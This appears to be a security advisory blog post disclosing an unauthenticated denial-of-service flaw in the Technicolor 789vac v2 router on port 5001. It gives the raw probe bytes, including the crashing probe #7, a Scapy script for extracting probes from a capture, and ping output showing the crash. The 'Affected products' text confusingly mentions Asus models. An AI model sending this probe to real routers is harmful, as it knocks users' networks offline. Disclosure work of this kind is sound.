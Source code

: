 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1: b'\x01\x00\x00\xfd\xce\xfa\x0b\xb0\xa0\x00\x00\x00MMS\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x01\x00\x03\x00\xf0\xf0\xf0\xf0\x0b\x00\x04\x00\x1c\x00\x03\x00N\x00S\x00P\x00l\x00a\x00y\x00e\x00r\x00/\x009\x00.\x000\x00.\x000\x00.\x002\x009\x008\x000\x00;\x00 \x00{\x000\x000\x000\x000\x00A\x00A\x000\x000\x00-\x000\x00A\x000\x000\x00-\x000\x000\x00a\x000\x00-\x00A\x00A\x000\x00A\x00-\x000\x000\x000\x000\x00A\x000\x00A\x00A\x000\x00A\x00A\x000\x00}\x00\x00\x00\xe0m\xdf_'
Probe #2: b'\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x0cGetClassName\x00\x00\x00\x02\x04\x00\x00\x00\x00\x01\x00'
Probe #3: b'\r\n\r\n'
Probe #4: b'GET / HTTP/1.0\r\n\r\n'
Probe #5: b'OPTIONS / HTTP/1.0\r\n\r\n'
Probe #6: b'OPTIONS / RTSP/1.0\r\n\r\n'
Probe #7: b'\x80\x00\x00(r\xfe\x1d\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xa0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #8: b'\x00\x1e\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03'
Probe #9: b'\x00\x0c\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #10: b'HELP\r\n'
Probe #11: b'\x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xd7\xf7\xba,\xee\xea\xb2`~\xf3\x00\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb<=\xdbo\xef\x10n\x00\x00(\x00\x16\x00\x13\x00\n\x00f\x00\x05\x00\x04\x00e\x00d\x00c\x00b\x00a\x00`\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x01\x00'
```

Probe scraping: 
```
from scapy.all import rdpcap


file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

target_ip = "ip_addr" 
target_port = 5001

probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes: 
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #7 is the chosen one that leads Techicolor 789vac failure. The Router becomes unreachable from every service. 
```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms



From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```

Moreover, this will result in an unintended system reboot. The time required for the system to reboot is unpredictable, ranging from a few seconds up to 10 minutes after the actor has exploited the system.
 
